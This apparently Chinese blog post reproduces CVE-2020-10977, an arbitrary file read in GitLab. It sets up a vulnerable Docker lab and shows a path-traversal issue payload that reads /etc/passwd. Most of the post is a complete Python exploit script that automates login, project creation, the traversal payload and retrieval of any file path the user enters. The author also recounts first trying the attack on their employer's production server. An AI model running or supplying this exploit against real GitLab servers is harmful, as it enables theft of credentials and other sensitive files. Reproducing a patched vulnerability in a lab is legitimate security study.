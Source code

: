 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RwFZXXUORFCUe-HUyQxQQQ)

上周五摸鱼的时候在Hackone看到GitLab文件读取漏洞，就试着拿公司生产环境搞了一下，文件没有读到还因为产生辣鸡数据被运维哥哥叼了一顿，本着不是很甘心的想法在本地搭建了一套才搞出来，以下是复现过程。

  

**1.环境搭建**  

```
`漏洞编号：CVE-2020-10977``影响版本：GitLab GitLab CE/EE >=8.5 and <=12.9`
```

复现是直接用docker拉的，中间的大概过程：  

```
`#配置浙大源，安装docker``curl -fsSL http://mirrors.zju.edu.cn/docker-ce/linux/debian/gpg | sudo apt-key add -``echo 'deb http://mirrors.zju.edu.cn/docker-ce/linux/debian/ buster stable' | sudo tee /etc/apt/sources.list.d/docker.list``sudo apt-get update``sudo apt-get install docker-ce``# 启动docker``systemctl start docker` `# 关闭apache占用的80端口``/etc/init.d/apache2 stop``# 拉取GitLab``docker run --detach \` `--hostname 192.168.109.128 \` `--publish 443:443 --publish 80:80 --publish 22:22 \` `--name gitlab \` `--restart always \` `--volume /root/config:/etc/gitlab \` `--volume /root/logs:/var/log/gitlab \` `--volume /root/data:/var/opt/gitlab \` `gitlab/gitlab-ee:12.1.6-ee.0`
```

注意：  

① --hostname + 靶机IP

② 80，443为搭建后的gitlab端口

③拉取gitlab版本：gitlab-ee:12.1.6-ee.0

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拉取完成后访问：http://192.168.109.128，回显正常。环境搭建成功。  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

**2.漏洞复现**

注册用户：test/12345678

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

①创建两个项目：project1，project2  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

②创建issues，里面打payload：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

③移动 issues。从project1移动到project2：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

④移动完成后再project2中可以看到passwd文件，直接下载即可读取到敏感文件，漏洞复现成功：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

⑤脚本梭哈：

```
`#!/usr/bin/env python3` `import sys``import json``import requests``import argparse``from bs4 import BeautifulSoup``requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)` `parser = argparse.ArgumentParser()``parser.add_argument('url', help='Target URL with http(s)://')``parser.add_argument('username', help='GitLab Username')``parser.add_argument('password', help='GitLab Password')``args = parser.parse_args()` `base_url = args.url``if base_url.startswith('http://') or base_url.startswith('https://'):` `pass``else:` `print('[-] Include http:// or https:// in the URL!')` `sys.exit()``if base_url.endswith('/'):` `base_url = base_url[:-1]` `username = args.username``password = args.password` `login_url = base_url + '/users/sign_in'``project_url = base_url + '/projects/new'``create_url = base_url + '/projects'``prev_issue_url = ''``csrf_token = ''``project_names = ['ProjectOne', 'ProjectTwo']` `session = requests.Session()` `def banner():` `print('-'*34)` `print('--- CVE-2020-10977 ---------------')` `print('--- GitLab Arbitrary File Read ---')` `print('--- 12.9.0 & Below ---------------')` `print('-'*34 + '\n')` `print('[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]')` `print('[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]\n')` `def show_info():` `print('[+] Target        : ' + base_url)` `print('[+] Username      : ' + username)` `print('[+] Password      : ' + password)` `print('[+] Project Names : {}, {}\n'.format(project_names[0], project_names[1]))` `def login():` `print('[!] Trying to Login...')` `try:` `login_req = session.get(login_url, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `  login_sc = login_req.status_code` `if login_sc == 200:` `login_resp = login_req.text` `soup = BeautifulSoup(login_resp, 'html.parser')` `meta = soup.find_all('meta')` `    for entry in meta:` `if 'name' in entry.attrs:` `if entry.attrs['name'] == 'csrf-token':` `csrf_token = entry.attrs['content']` `else:` `print('[-] Status : ' + str(login_req.status_code))` `sys.exit()` `  login_data = {` `'utf8': '✓',` `'authenticity_token': csrf_token,` `'user[login]': username,` `'user[password]': password,` `'user[remember_me]': 0` `}` `  login_req = session.post(login_url, data=login_data, allow_redirects=False)` `if login_req.status_code == 302 and 'redirected' in login_req.text:` `print('[+] Login Successful!')` `else:` `print('[-] Status : ' + str(login_req.status_code))` `print('[-] Login Failed!')` `sys.exit()` `def create_project(project):` `global csrf_token` `print('[!] Creating {}...'.format(project))` `try:` `project_req = session.get(project_url, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `project_resp = project_req.text` `soup = BeautifulSoup(project_resp, 'html.parser')` `inputs = soup.find_all('input')` `for entry in inputs:` `if 'name' in entry.attrs:` `if entry.attrs['name'] == 'project[namespace_id]':` `project_id = entry.attrs['value']` `  meta = soup.find_all('meta')` `for entry in meta:` `if 'name' in entry.attrs:` `if entry.attrs['name'] == 'csrf-token':` `csrf_token = entry.attrs['content']` `  create_data = {` `'utf8': '✓',` `'authenticity_token': csrf_token,` `'project[ci_cd_only]': 'false',` `'project[name]': project,` `'project[namespace_id]': project_id,` `'project[path]': project,` `'project[description]': '',` `'project[visibility_level]' : '0'` `}` `try:` `create_req = session.post(create_url, data=create_data, allow_redirects=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `if create_req.status_code == 302 and 'redirected' in create_req.text:` `print('[+] {} Created Successfully!'.format(project))` `else:` `pass` `def create_issue(project_name):` `global prev_issue_url` `print('[!] Creating an Issue...')` `issue_url = '{}/{}/{}/issues/new'.format(base_url, username, project_name)` `try:` `issue_req = session.get(issue_url, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `issue_resp = issue_req.text` `soup = BeautifulSoup(issue_resp, 'html.parser')` `meta = soup.find_all('meta')` `for entry in meta:` `if 'name' in entry.attrs:` `if entry.attrs['name'] == 'csrf-token':` `csrf_token = entry.attrs['content']` `  issue_create_url = issue_url.replace('/new', '')` `issue_data = {` `'utf8': '✓',` `'authenticity_token' : csrf_token,` `'issue[title]': 'read_{}'.format(filename),` `'issue[description]' : '![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../..{})'.format(filename),` `'issue[confidential]' : '0',` `'issue[assignee_ids][]' : '0',` `'issue[label_ids][]' : '',` `'issue[due_date]' : '',` `'issue[lock_version]' : '0'` `}` `  try:` `create_req = session.post(issue_create_url, data=issue_data, allow_redirects=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `if create_req.status_code == 302 and 'redirected' in create_req.text:` `print('[+] Issue Created Successfully!')` `create_resp = create_req.text` `soup = BeautifulSoup(create_resp, 'html.parser')` `prev_issue_url = soup.find('a')['href']` `if base_url.startswith('https://') and prev_issue_url.startswith('http://'):` `prev_issue_url = prev_issue_url.replace('http://', 'https://')` `else:` `print('[-] Status : ' + str(create_req.status_code))` `print('[-] Failed to Create an Issue!')` `def move_issue(source, second, filename):` `print('[!] Moving Issue...')` `id_url = '{}/{}/{}'.format(base_url, username, second)` `try:` `id_req = session.get(id_url, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `id_resp = id_req.text` `soup = BeautifulSoup(id_resp, 'html.parser')` `body = soup.find('body')` `project_id = body.attrs['data-project-id']` `move_url = prev_issue_url + '/move'` `  try:` `csrf_req = session.get(prev_issue_url, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `csrf_resp = csrf_req.text` `soup = BeautifulSoup(csrf_resp, 'html.parser')` `meta = soup.find_all('meta')` `for entry in meta:` `if 'name' in entry.attrs:` `if entry.attrs['name'] == 'csrf-token':` `csrf_token = entry.attrs['content']` `move_data = {` `"move_to_project_id": int(project_id)` `}` `move_data = json.dumps(move_data)` `move_headers = {` `'X-CSRF-Token': csrf_token,` `'X-Requested-With': 'XMLHttpRequest',` `'Content-Type': 'application/json;charset=UTF-8'` `}` `  try:` `move_req = session.post(move_url, data=move_data, headers=move_headers)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `if move_req.status_code == 200:` `print('[+] Issue Moved Successfully!')` `description = json.loads(move_req.text)["description"]` `filepath = description.split('](')[1][1:-1]` `fileurl = "{}/{}/{}/{}".format(base_url, username, second, filepath)` `    print('[+] File URL : ' + fileurl)` `try:` `contents = session.get(fileurl, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `if contents.status_code == 404:` `print('[-] No such file or directory')` `else:` `print('\n> ' + filename)` `print('{}\n\n{}\n{}\n'.format('-'*40, contents.text, '-'*40 ))` `elif move_req.status_code == 500:` `print('[-] Access Denied!')` `else:` `print('[-] Status : ' + str(move_req.status_code))` `def delete_project(project):` `print('[!] Deleting {}...'.format(project))` `delete_data = {` `'utf8': '✓',` `'_method': 'delete',` `'authenticity_token' : csrf_token` `}` `delete_url = '{}/{}/{}'.format(base_url, username, project)` `try:` `delete_req = session.post(delete_url, data=delete_data, verify=False)` `except Exception as exc:` `print('\n[-] Exception : ' + str(exc))` `sys.exit()` `if delete_req.status_code == 200:` `print('[+] {} Successfully Deleted!'.format(project))` `else:` `print('[-] Status : ' + str(delete_req.status_code))` `try:` `banner()` `show_info()` `login()` `for project in project_names:` `create_project(project)` `while True:` `filename = input('[>] Absolute Path to File : ')` `create_issue(project_names[0])` `move_issue(project_names[0], project_names[1], filename)``except KeyboardInterrupt:` `print('\n[-] Keyboard Interrupt')` `for project in project_names:` `delete_project(project)` `sys.exit()`
```

脚本来源：  

```
https://blog.csdn.net/weixin_39811856/article/details/110390417
```

运行脚本，读取成功：  

```
`python gitlab.py http://192.168.109.128/ test 12345678``# test 12345678创的是用户名&密码`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

**3.复现视频**  

从hackone扒拉下来的复现视频，仅作参考：  

参考地址：  

```
`https://blog.csdn.net/weixin_39811856/article/details/11039041``https://hackerone.com/reports/827052`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)